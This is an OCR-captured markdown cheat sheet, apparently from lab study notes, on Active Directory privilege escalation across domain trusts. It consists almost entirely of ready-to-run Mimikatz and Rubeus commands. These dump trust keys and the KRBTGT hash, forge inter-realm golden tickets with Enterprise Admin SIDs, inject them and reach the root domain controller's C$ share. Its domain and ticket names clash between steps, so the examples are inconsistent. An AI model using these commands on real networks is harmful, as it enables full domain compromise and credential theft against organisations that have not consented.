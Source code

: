   ```powershell

# Privilege Escation - Domain Trusts


**CASE 1: Within Forest: Escalating from Child Domain to Root Domain**


A) Escalating from child domain to parent/root domain using Trust key/ticket

  - Step 1: Fetching the Trust keys between child and parent domain

    ```powershell
    Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dcorp-dc
    Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\mcorp$"'

  - Step 2: Crafting the Inter-realm-TGT ticket

    ```powershell
    Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:organicsecurity.local /sid:SID_OF_CURRENT_DOMAIN /sids:SID_OF_ENTERPRISE_ADMINS_FROM_PARENT_DOMAIN  /rc4:TRUST_KEY /service:krbtgt /target:mango.local /ticket:trust_tkt.kirbi"'

    Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:organicsecurity.local /sid:S-1-5-21-1874506631-3219952063-538504511  /sids:S-1-5-21-280534878-1496970234-700767426-519  /rc4:c04dfec49ae75f81d9ff849e4c4f5be9 /service:krbtgt  /target:moneycorp.local /ticket:trust_orangesecurity_tgt.kirbi"'

  - STEP 3: Use the Inter-Realm TGT to fetch TGS for given service from another forest

    ```powershell
    .\Rubeus.exe asktgs /ticket:trust_Dollar2moneycorp_tgt.kirbi /service:CIFS/mcorp-dc.moneycorp.local  /dc:mcorp-dc.moneycorp.local  /ptt

  - STEP 4: Access the CIFS service from another forest

    ```powershell
    ls \\mcorp-dc.moneycorp.local\c$



B) Escalating from child domain to parent/root domain using KRBTGT Hash

  - STEP 1: Fetch the NTLM hash of KRBTGT Account 
  
    ```powershell
    Invoke-Mimikatz -Command '"lsadump::lsa /patch"'

  - STEP 2: Use it to craft the Golden ticket with SID set to Enterprise Admin

    ```powershell
    Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:organicsecurity.local /sid:SID_OF_CURRENT_DOMAIN /sids:SID_OF_ENTERPRISE_ADMINS_FROM_PARENT_DOMAIN  /krbtgt:krbtgt_ntlm_hash  /target:moneycorp.local /ticket:trust_tkt.kirbi"'

    Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:organicsecurity.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519  /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /target:mango.local  /ticket:trust_organicsecurity_golden_tgt.kirbi"'

  - STEP 3: Inject the ticket into the memory

    ```powershell
    Invoke-Mimikatz -Command '"kerberos::ptt trust_organicsecurity_golden_tgt.kirbi"'
  ```